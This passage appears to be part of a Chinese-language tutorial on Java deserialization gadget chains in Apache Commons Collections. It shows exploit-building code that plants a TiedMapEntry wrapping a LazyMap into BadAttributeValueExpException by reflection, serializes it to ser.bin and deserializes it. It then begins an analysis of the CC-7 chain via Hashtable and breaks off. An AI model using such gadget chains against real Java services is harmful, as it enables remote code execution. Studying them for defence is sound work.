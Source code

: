 ```plain
        Map uselessMap = new HashMap();
        Map lazyMap = LazyMap.decorate(uselessMap,chainedTransformer);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap,"lituer");//实例化TiedMapEntry，构造方法map传入lazyMap

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);//入口      

        //反射修改val
        Field val = BadAttributeValueExpException.class.getDeclaredField("val");
        val.setAccessible(true);
        val.set(badAttributeValueExpException, tiedMapEntry);
        serialize(badAttributeValueExpException);
        unserialize("ser.bin");

    }

    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }
    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

## CC-7 分析

### 分析过程

CC-7 将 AnnotationInvocationHandler 类换成了 HashTable，最后同样是执行得 lazyMap

我们先先来看一下 HashTable 的 readObject 方法

我们直接跟进一下
